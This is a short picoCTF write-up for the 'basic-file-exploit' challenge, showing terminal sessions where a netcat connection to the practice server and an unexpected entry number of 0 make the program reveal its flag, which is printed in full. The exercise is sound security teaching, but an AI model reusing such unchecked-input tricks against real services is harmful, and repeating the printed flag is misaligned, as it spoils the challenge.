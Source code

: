 # basic-file-exploit
#picoCTF 
## Descripción
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! Connect to the program with netcat: `$ nc saturn.picoctf.net 50959` The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/141/program-redacted.c).

## Pistas 
+ Try passing in things the program doesn't expect. Like a string instead of a number.

## Solución
```bash 
┌──(kali㉿kali)-[~/picoctf/BinaryExplotation/basic-file-exploit]
└─$ wget https://artifacts.picoctf.net/c/141/program-redacted.c                                  
--2023-05-20 20:17:12--  https://artifacts.picoctf.net/c/141/program-redacted.c
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 13.249.74.17, 13.249.74.56, 13.249.74.22, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|13.249.74.17|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4202 (4.1K) [application/octet-stream]
Saving to: ‘program-redacted.c’

program-redacted.c           100%[=============================================>]   4.10K  --.-KB/s    in 0s      

2023-05-20 20:17:12 (82.6 MB/s) - ‘program-redacted.c’ saved [4202/4202]

                                                                                                                   
┌──(kali㉿kali)-[~/picoctf/BinaryExplotation/basic-file-exploit]
└─$ ls
program-redacted.c
                                                                                                                   
┌──(kali㉿kali)-[~/picoctf/BinaryExplotation/basic-file-exploit]
└─$ nano program-redacted.c 
                                                                                                                    
┌──(kali㉿kali)-[~/picoctf/BinaryExplotation/basic-file-exploit]
└─$ 
```
```bash 
┌──(kali㉿kali)-[~]
└─$ nc saturn.picoctf.net 50959        
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
Isaac
Isaac
Please enter the length of your data:
5
5
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
1
1
Isaac
Read successful, would you like to do anything else?
3
3
                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ nc saturn.picoctf.net 50959
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
Isaac
Isaac
Please enter the length of your data:
5
5
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_E0394EC0}
                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ 

```

## Bandera
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_E0394EC0}

## Notas adicionales
| comando | descripción |
|------------|---------------|
| xx | xx |

## Referencias
